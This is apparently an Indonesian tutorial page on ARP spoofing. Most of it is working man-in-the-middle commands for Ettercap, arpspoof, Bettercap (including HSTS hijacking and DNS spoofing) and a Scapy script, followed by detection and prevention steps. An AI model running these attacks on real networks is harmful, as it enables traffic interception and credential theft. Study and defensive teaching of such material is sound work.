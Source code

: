 ```yaml
---
sidebar_position: 1
---
```


# ARP Spoofing

## a. Menggunakan Ettercap
**Instalasi Ettercap:**
```bash
sudo apt update && sudo apt install ettercap-text-only
```

**Menjalankan Ettercap dalam mode teks:**
```bash
sudo ettercap -Tq -M arp:remote /192.168.1.1// /192.168.1.100//
```
- `-Tq` : Mode teks, tanpa GUI
- `-M arp:remote` : Mode MITM menggunakan ARP Spoofing
- `/192.168.1.1// /192.168.1.100//` : Menargetkan gateway dan korban

#### Menggunakan Wireshark untuk Mendeteksi ARP Spoofing
1. Buka Wireshark dan pilih interface jaringan yang digunakan.
2. Gunakan filter berikut untuk melihat paket ARP yang mencurigakan:
   ```
   arp.opcode == 2
   ```
3. Jika ada banyak ARP reply dari IP yang sama dengan MAC yang berbeda, kemungkinan terjadi ARP Spoofing.

### b. Menggunakan Arpspoof
**Instalasi Arpspoof:**
```bash
sudo apt install dsniff
```

**Menjalankan Arpspoof untuk menyerang target:**
```bash
sudo arpspoof -i eth0 -t [target] [gateway]
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

sudo arpspoof -i eth0 -t [gateway] [target]
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```
- `-i eth0` : Interface jaringan yang digunakan
- `-t 192.168.1.100` : Alamat IP korban
- `192.168.1.1` : Alamat IP gateway

**mengaktifkan port forwarding**
```bash
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

### c. Menggunakan Bettercap

#### Instalasi Bettercap
```bash
sudo apt update && sudo apt install bettercap -y
```

#### Menjalankan Bettercap
```bash
sudo bettercap -iface eth0
```

Setelah masuk ke CLI Bettercap, jalankan perintah berikut:

```bash
help                           # Menampilkan opsi bantuan yang tersedia di Bettercap
net.show                       # Menampilkan daftar perangkat yang terdeteksi dalam jaringan
net.probe on                   # Mengaktifkan pemindaian jaringan untuk mendeteksi perangkat secara aktif
net.sniff on                   # Mengaktifkan sniffing paket untuk menganalisis lalu lintas jaringan

set arp.spoof.targets 192.168.1.100  # Menentukan target untuk melakukan ARP Spoofing
arp.spoof on                   # Memulai serangan ARP Spoofing untuk meracuni cache ARP target
set net.sniff.filter tcp or udp # Menentukan filter sniffing untuk menangkap paket TCP atau UDP

hstshijack/hstshijack on        # Mengaktifkan HSTS Hijacking untuk menyusupi koneksi HTTPS
```

#### Menggunakan File Caplet untuk Automasi
Untuk mempercepat eksekusi perintah, gunakan file caplet:

```bash
cat > aria.cap << EOF
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.0.0/24
arp.spoof on
net.sniff on

set net.sniff.verbose true
set net.sniff.filter tcp or udp

hstshijack/hstshijack on
EOF
```

Jalankan Bettercap dengan caplet tersebut:
```bash
sudo bettercap -iface eth0 -caplet aria.cap
```

Caplet ini akan mengaktifkan pemindaian jaringan, menjalankan ARP Spoofing dalam mode full-duplex, dan mengaktifkan sniffing jaringan secara otomatis.

#### Opsi Lainnya
Selain contoh di atas, berikut beberapa opsi lain yang bisa dicoba:

1. **Menampilkan Informasi Lebih Detail**:
   ```plaintext
   net.recon on         # Mengaktifkan mode pengintaian lanjutan
   net.show verbose     # Menampilkan detail perangkat secara lengkap
   ```

2. **Menyerang Banyak Target Sekaligus**:
   ```plaintext
   set arp.spoof.targets 192.168.1.0/24  # Menargetkan seluruh subnet
   arp.spoof on
   ```

3. **Menjalankan Modul Lainnya**:
   ```plaintext
   dns.spoof on         # Melakukan DNS Spoofing
   http.proxy on        # Menjalankan proxy HTTP untuk manipulasi trafik
   ```

Opsi-opsi ini dapat dikombinasikan dalam file caplet untuk memperluas fungsionalitas Bettercap sesuai kebutuhan Anda.

## 3. Tools yang Digunakan untuk ARP Spoofing

| Tool | Deskripsi |
|------|----------|
| **Ettercap** | Tools untuk MITM attack dengan ARP Spoofing. |
| **Wireshark** | Digunakan untuk menganalisis paket jaringan dan mendeteksi ARP Spoofing. |
| **Arpspoof** | Tools sederhana untuk mengirim paket ARP palsu. |
| **Bettercap** | Framework security testing yang lebih canggih untuk MITM attack. |
| **Scapy** | Library Python untuk membuat dan mengirim paket ARP palsu. |

**Contoh penggunaan Scapy untuk mengirim paket ARP palsu:**
```python
from scapy.all import *
arp_response = ARP(op=2, psrc='192.168.1.1', hwsrc='aa:bb:cc:dd:ee:ff', pdst='192.168.1.100')
send(arp_response, loop=1, inter=2)
```

## 4. Pencegahan ARP Spoofing

### Static ARP
Menambahkan entri ARP statis untuk menghindari pembaruan palsu:
```bash
arp -s 192.168.1.1 00:11:22:33:44:55
```

### Port Security di Switch
Menggunakan port security untuk membatasi jumlah MAC address yang dapat terhubung ke port tertentu:
```bash
switch# configure terminal
switch(config)# interface fa0/1
switch(config-if)# switchport mode access
switch(config-if)# switchport port-security
switch(config-if)# switchport port-security maximum 1
switch(config-if)# switchport port-security violation restrict
switch(config-if)# exit
```

### Dynamic ARP Inspection (DAI)
Mengaktifkan inspeksi ARP pada switch untuk memverifikasi ARP yang sah:
```bash
switch# configure terminal
switch(config)# ip arp inspection vlan 10
switch(config)# interface fa0/1
switch(config-if)# ip arp inspection trust
switch(config-if)# exit
```

## Kesimpulan
ARP Spoofing adalah teknik serangan yang dapat digunakan untuk melakukan MITM attack, mencuri data, atau memutus koneksi jaringan. Dengan alat seperti Ettercap, Arpspoof, Bettercap, dan Scapy, serangan ini dapat dilakukan dengan mudah. Namun, ada beberapa metode pencegahan yang dapat digunakan seperti static ARP, port security, dan Dynamic ARP Inspection untuk mengamankan jaringan dari serangan ini.